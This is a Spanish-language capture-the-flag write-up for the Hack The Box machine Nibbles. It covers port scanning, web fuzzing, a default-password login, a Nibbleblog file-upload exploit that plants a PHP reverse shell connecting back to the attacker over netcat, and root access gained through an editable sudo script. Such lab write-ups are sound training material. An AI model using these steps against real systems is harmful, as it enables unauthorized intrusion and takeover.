




## DESCRIPCION

En este post realizaremos el write up de la máquina Nibbles. Tocaremos los conceptos de fuzzing, credenciales por defecto, explotación de la vulnerabilidad Arbitrary File Upload (CVE-2015-6967) y escalaremos privilegios mediante la modificación de un script, ejecutándolo con sudo.


## INDICE

- [Reconocimiento de puertos](#escaneo-de-puertos)
- [Reconocimiento web](#reconocimiento-web)
  - [Fuzzing de archivos](#wfuzz)
    - [Update.php](#update)
    - [Admin.php](#admin)
  - [Credenciales válidas](#credenciales)
    - [Usuario](#usuario)
    - [Contraseña](#pass)
- [Intrusión](#intrusion)
- [Escalada de privilegios](#escalada-de-privilegios)
- [Flags](#flags)
- [Conocimientos obtenidos](#conocimientos-obtenidos)
- [Autores y referencias](#autores-y-referencias)

## ESCANEO DE PUERTOS

Escaneamos con `nmap` los puertos abiertos en la máquina Nibbles:

```ruby
❯ cat Puertos
───────┬───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: Puertos
───────┼───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ # Nmap 7.92 scan initiated Mon Jul 25 17:48:56 2022 as: nmap --open -p- -T5 -oG Puertos 10.10.10.75
   2   │ Host: 10.10.10.75 ()    Status: Up
   3   │ Host: 10.10.10.75 ()    Ports: 22/open/tcp//ssh///, 80/open/tcp//http///
   4   │ # Nmap done at Mon Jul 25 17:49:09 2022 -- 1 IP address (1 host up) scanned in 13.05 seconds
───────┴───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
❯ Reconocimiento Puertos

{*} Extrayendo puertos...

    La direccion ip es: 10.10.10.75
    Los puertos abiertos son: 22,80

    Los puertos han sido copiados al portapapeles
```

<br>
Escaneamos al objetivo con los scripts predeterminados de nmap, apuntando a los puertos abiertos en busca de más información.

```ruby
❯ cat Objetivos
───────┬───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: Objetivos
───────┼───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ nmap -sCV -p 22,80 -oN Objetivos 10.10.10.75
   2   │ Nmap scan report for 10.10.10.75
   3   │ Host is up (0.043s latency).
   4   │ 
   5   │ PORT   STATE SERVICE VERSION
   6   │ 22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
   7   │ | ssh-hostkey: 
   8   │ |   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
   9   │ |   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
  10   │ |_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
  11   │ 80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
  12   │ |_http-server-header: Apache/2.4.18 (Ubuntu)
  13   │ |_http-title: Site doesn't have a title (text/html).
  14   │ Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
───────┴───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────## 
```

## RECONOCIMIENTO WEB

Si nos dirigimos al servidor web ubicado en `http://10.10.10.75/` nos encontramos lo siguiente:



A simple vista no vemos nada, pero observando el código fuente encontramos lo siguiente:

```html
<b>Hello world!</b>

<!-- /nibbleblog/ directory. Nothing interesting here! -->
```

<br>

<h3 style="text-align:center" id="wfuzz">FUZZING DE ARCHIVOS</h3><hr>

Nos dirigimos a `http://10.10.10.75/nibbleblog/` y haciendo uso de `wfuzz` vamos a buscar archivos `txt` o `php` que nos puedan ser útiles o nos aporten información:

```bash
❯ wfuzz -c --hc 404 -u http://10.10.10.75/nibbleblog/FUZZ.FUZ2Z -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt  -z list,php-txt
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.75/nibbleblog/FUZZ.FUZ2Z
Total requests: 441120

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                       
=====================================================================

000000007:   200        60 L     168 W      2985 Ch     "# - php"                                                                                                                                     
000000019:   200        60 L     168 W      2985 Ch     "# - php"                                                                                                                                     
000000015:   200        60 L     168 W      2985 Ch     "# or send a letter to Creative Commons, 171 Second Street, - php"                                                                            
000000001:   200        60 L     168 W      2985 Ch     "# directory-list-2.3-medium.txt - php"                                                                                                       
000000018:   200        60 L     168 W      2985 Ch     "# Suite 300, San Francisco, California, 94105, USA. - txt"                                                                                   
000000016:   200        60 L     168 W      2985 Ch     "# or send a letter to Creative Commons, 171 Second Street, - txt"                                                                            
000000021:   200        60 L     168 W      2985 Ch     "# Priority ordered case-sensitive list, where entries were found - php"                                                                      
000000017:   200        60 L     168 W      2985 Ch     "# Suite 300, San Francisco, California, 94105, USA. - php"                                                                                   
000000003:   200        60 L     168 W      2985 Ch     "# - php"                                                                                                                                     
000000022:   200        60 L     168 W      2985 Ch     "# Priority ordered case-sensitive list, where entries were found - txt"                                                                      
000000014:   200        60 L     168 W      2985 Ch     "# license, visit http://creativecommons.org/licenses/by-sa/3.0/ - txt"                                                                       
000000020:   200        60 L     168 W      2985 Ch     "# - txt"                                                                                                                                     
000000009:   200        60 L     168 W      2985 Ch     "# This work is licensed under the Creative Commons - php"                                                                                    
000000013:   200        60 L     168 W      2985 Ch     "# license, visit http://creativecommons.org/licenses/by-sa/3.0/ - php"                                                                       
000000012:   200        60 L     168 W      2985 Ch     "# Attribution-Share Alike 3.0 License. To view a copy of this - txt"                                                                         
000000011:   200        60 L     168 W      2985 Ch     "# Attribution-Share Alike 3.0 License. To view a copy of this - php"                                                                         
000000004:   200        60 L     168 W      2985 Ch     "# - txt"                                                                                                                                     
000000008:   200        60 L     168 W      2985 Ch     "# - txt"                                                                                                                                     
000000010:   200        60 L     168 W      2985 Ch     "# This work is licensed under the Creative Commons - txt"                                                                                    
000000002:   200        60 L     168 W      2985 Ch     "# directory-list-2.3-medium.txt - txt"                                                                                                       
000000006:   200        60 L     168 W      2985 Ch     "# Copyright 2007 James Fisher - txt"                                                                                                         
000000005:   200        60 L     168 W      2985 Ch     "# Copyright 2007 James Fisher - php"                                                                                                         
000000023:   200        60 L     168 W      2985 Ch     "# on at least 2 different hosts - php"                                                                                                       
000000025:   200        60 L     168 W      2985 Ch     "# - php"                                                                                                                                     
000000029:   200        60 L     168 W      2985 Ch     "index - php"                                                                                                                                 
000000027:   403        11 L     32 W       301 Ch      "php"                                                                                                                                         
000000024:   200        60 L     168 W      2985 Ch     "# on at least 2 different hosts - txt"                                                                                                       
000000026:   200        60 L     168 W      2985 Ch     "# - txt"                                                                                                                                     
000000085:   200        10 L     13 W       402 Ch      "sitemap - php"                                                                                                                               
000000251:   200        7 L      15 W       302 Ch      "feed - php"                                                                                                                                  
000000517:   200        26 L     96 W       1401 Ch     "admin - php"                                                                                                                                 
000001429:   200        0 L      11 W       78 Ch       "install - php"                                                                                                                               
000001587:   200        87 L     174 W      1621 Ch     "update - php"                                                                                                                                
000006590:   200        675 L    5644 W     35148 Ch    "LICENSE - txt"                                                                                                                               
000035634:   200        26 L     187 W      1272 Ch     "COPYRIGHT - txt"                                                                                                                             
```

Existen dos archivos interesantes `update.php` y `admin.php`.

<h3 id="update">UPDATE.PHP</h3>

Este archivo `php` nos muestra la versión de `nibbleblog` que se está utilizando.



<h3 id="admin">ADMIN.PHP</h3>

Este archivo nos muestra un panel login el cual está protegido ante fuerza bruta, ya que la página te bloquea tras varios intentos, por lo que lo más eficiente sería intentar encontrar unas credenciales válidas.



<h3 style="text-align:center" id="credenciales">CREDENCIALES VALIDAS</h3><hr>

<h3 id="usuario">USUARIO</h3>

Como la página tiene habilitado el directoring listing navegando entre directorios se encuentra un archivo `xml` con un usuario válido `admin` el path es `http://10.10.10.75/nibbleblog/content/private/users.xml`.

```xml
<users>
<user username="admin">
<id type="integer">0</id>
<session_fail_count type="integer">0</session_fail_count>
<session_date type="integer">1514544131</session_date>
</user>
<blacklist type="string" ip="10.10.10.1">
<date type="integer">1512964659</date>
<fail_count type="integer">1</fail_count>
</blacklist>
</users>
```

<h3 id="pass">CONTRASEÑA</h3>

Intentando encontrar contraseñas por defecto para el usuario admin intenté con `nibbles` y... ¡Estamos dentro!

<h3 style="text-align:center" id="intrusion">INTRUSION</h3><hr>

Con unas credenciales válidas y la versión 4.0.3 de Nibbleblog existe la siguiente <a href="https://packetstormsecurity.com/files/133425/NibbleBlog-4.0.3-Shell-Upload.html" target="_blank">vulnerabilidad</a>, en esta versión no se sanitiza la extensión de los archivos subidos desde el plugin My image:

1 - Nos descargamos y modificamos el archivo php malicioso que nos entablará la revese shell, podemos encontrarlo en <a href="https://pentestmonkey.net/tools/web-shells/php-reverse-shell" target="_blank">Pentestmonkey</a>:

```bash
  49   │ $ip = '10.10.16.4';  // CHANGE THIS
  50   │ $port = 1234;       // CHANGE THIS
```

<br>

2 - Nos dirigimos a `http://10.10.10.75/nibbleblog/admin.php?controller=plugins&action=config&plugin=my_image` y subimos nuestra reverse shell ignorando los warnings.



<br>

3 - Nos ponemos por escucha utilizando `netcat` por el puerto dado:

```bash
❯ nc -lvnp 1234
listening on [any] 1234 ...
```

<br>

4 - Para ejecutar el archivo malicioso hacemos un `curl` a la siguiente ubicacion:

```bash
curl http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php
```

<br>

5 - Recibimos la reverse shell:

```bash
❯ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.10.75] 59992
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 14:13:20 up  2:35,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

<br>

6 - Hacemos más interactiva la shell:

```bash
$ script /dev/null -c bash 
Script started, file is /dev/null
nibbler@Nibbles:/$ ^Z
[1]  + 7276 suspended  nc -lvnp 1234
❯ stty raw -echo;fg
[1]  + 7276 continued  nc -lvnp 1234
                                    reset xterm
nibbler@Nibbles:/$ export SHELL=/bin/bash
nibbler@Nibbles:/$ export TERM=xterm
nibbler@Nibbles:/$ stty cols 207 rows 47
```

## ESCALADA DE PRIVILEGIOS

Nos dirigimos a la carpeta de nustro usuario `/home/nibbler`:

```bash
nibbler@Nibbles:/home/nibbler$ ls 
personal.zip  user.txt
```

<br>

1 - Descomprimimos el archivo `personal.zip`:

```bash
nibbler@Nibbles:/home/nibbler$ unzip personal.zip 
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh  
```

<br>

2 - Este zip tenía un script llamado `monitor.sh` en su interior con el permiso `777` asignado:

```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls -la
total 12
drwxr-xr-x 2 nibbler nibbler 4096 Dec 10  2017 .
drwxr-xr-x 3 nibbler nibbler 4096 Dec 10  2017 ..
-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 monitor.sh
```

<br>

3 - Si revisamos que permisos tenemos  con `sudo -l` nos encontramos con que podemos ejecutar como root el script `monitor.sh`

```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

<br>

4 - En este momento con modificar el script para spawnear una shell y llamar el script como root ya habríamos escalado privilegios, modificamos el script:

```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ cat ./monitor.sh 
#!/bin/bash

/bin/bash
```

<br>

5 - Ejecutamos con permisos de `root`:

```bash
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo ./monitor.sh 
root@Nibbles:/home/nibbler/personal/stuff# whoami
root
```

¡Somos root!

## FLAGS

<h3>User.txt</h3>

```bash
root@Nibbles:/home/nibbler# cat user.txt 
5f75xxxxxxxxxxxxxxxxxxxxxxxxxxxx
```

<h3>Root.txt</h3>

```bash
root@Nibbles:/# cat /root/root.txt 
17acxxxxxxxxxxxxxxxxxxxxxxxxxxxx
```

## CONOCIMIENTOS OBTENIDOS

De la máquina <em>Nibbles</em> podemos extraer los siguientes conocimientos:

- Reconocimiento de puertos con `nmap`.

- Fuzzing web en busca de archivos con `wfuzz`.

- Explotacion de la vulnerabilidad `Arbitrary File Upload`.

- Escalada de privilegios a través de `sudo`.

## AUTORES y REFERENCIAS

Autor del write up: Luis Miranda Sierra (Void4m0n) <a href="https://app.hackthebox.com/profile/1104062" target="_blank">HTB</a>. Si queréis contactarme por cualquier motivo lo podéis hacer a través 
de <a href="https://twitter.com/Void4m0n" target="_blank">Twitter</a>.

Autor de la máquina:  <em>mrb3n</em>, muchas gracias por la creación de Nibbles aportando a la comunidad. <a href="https://app.hackthebox.com/users/2984" target="_blank">HTB</a>.
